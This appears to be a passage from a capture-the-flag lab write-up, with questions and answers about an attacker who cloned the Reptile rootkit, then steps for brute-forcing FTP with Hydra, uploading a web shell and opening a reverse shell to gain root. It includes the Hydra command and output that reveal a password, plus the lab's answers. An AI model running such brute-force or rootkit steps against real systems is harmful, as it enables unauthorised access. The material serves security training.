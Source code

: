 **Question**
#### The attacker downloaded something from GitHub. What is the name of the GitHub project?
```
git clone https://github.com/f0rb1dd3n/Reptile.git
```

**Answer** 
#### Reptile

**Question**
#### The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?
**Answer** 
#### rootkit

# Task 2 - Hack your way back into the machine

*Follow the instruction* 

```
 - The attacker has changed the user's password! Can you replicate the attacker's steps and read the flag.txt? The flag is located in the /root/Reptile directory. Remember, you can always look back at the .pcap file if necessary. Good luck!

 - Run Hydra (or any similar tool) on the FTP service. The attacker might not have chosen a complex password. You might get lucky if you use a common word list.

- Change the necessary values inside the web shell and upload it to the webserver

- Create a listener on the designated port on your attacker machine. Execute the web shell by visiting the .php file on the targeted web server.

- Become root!
```

**Question**
#### Read the flag.txt file inside the Reptile directory

- Let's start with **hydra**
```
sudo hydra -l jenny -P rockyou.txt ftp://10.10.253.71
Password:
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-14 13:39:48
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.253.71:21/
[21][ftp] host: 10.10.253.71   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-14 13:40:28
```
